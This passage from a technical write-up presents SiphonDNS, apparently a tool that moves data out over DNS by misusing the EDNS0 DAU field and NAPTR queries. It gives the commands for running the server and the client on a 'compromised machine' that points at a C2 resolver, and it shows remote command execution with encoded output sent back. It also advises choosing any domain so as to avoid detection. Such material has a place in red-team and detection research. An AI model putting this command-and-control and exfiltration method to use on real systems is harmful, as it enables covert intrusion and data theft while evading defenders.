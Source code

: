 #### DAU (DNSSEC Algorithm Understood)

This is another application of EDNS0 and I include this here just to highlight the fact that with direct connection to an authoritative server, you can come up with virtually endless amount of techniques of data exfiltration. This is just another example of a misuse of an arbitrary field.

Encoder here is also very simple:

![dau-encoding]({{ page.images_path }}/9.png)

The protocol is again almost exactly the same, although we use NAPTR (RFC 2915) Questions and its REGEXP field as cache miss marker:

![dau-protocol]({{ page.images_path }}/10.png)

And this is how you do it with SiphonDNS:

* Run the SiphonDNS server on your NS server

```sh
$ ./siphondns-server -method dau
```

* Then run the SiphonDNS client on the compromised machine

```sh
$ ./siphondns-client -domain 'github.com' -method dau -resolver 1.2.3.4:53
```

Notice that you have to set the resolver to the IP of the C2 server. Also, you can use any domain, which might help avoid some detections.

* Now, on the server side, issue a command and observe results on both sides

Server-side:
```sh
cmd> id
Command received
Receiving data......

Response:
 uid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),118(wireshark),121(bluetooth),134(scanner),141(kaboxer)
```

Client-side:
```sh
Polling...OK
Executing command: id ... OK
Sending: [1 3 3 7 1 3 3 7] ... OK
Sending: [101 74 120 99 121 122 70 79 66 68 69 77 104 101 71 101 85 49 68 97 107 111 115 52 71 120 89 111 79 69 120 50 98 87 97 105 67 101 77 111 105 81 101 52 80 82 114 82 73 76 114 51 80 117 110 51 73 109 56 99 81 111 65 116] ... OK
Sending: [49 52 75 80 121 55 47 98 122 100 118 52 73 53 81 103 121 119 100 83 68 67 65 108 86 47 79 74 70 66 80 99 112 100 117 112 84 47 66 101 114 98 86 118 112 80 103 77 119 56 87 81 52 105 116 107 108 50 74 73 108 55 78 112] ... OK
Sending: [83 67 110 66 85 85 81 78 75 86 50 104 86 86 57 69 68 121 81 79 65 88 120 111 72 43 101 56 119 113 55 122 108 47 107 70 80 107 118 88 115 101 97 43 73 88 70 107 117 70 88 88 97 84 90 88 74 76 52 107 71 80 101 56] ... OK
Sending: [55 57 113 82 79 68 70 115 43 87 90 102 50 118 72 104 74 119 65 65 47 47 57 56 57 107 71 84] ... OK
Sending: [7 3 3 1 7 3 3 1] ... OK
Done in 6 requests.
```
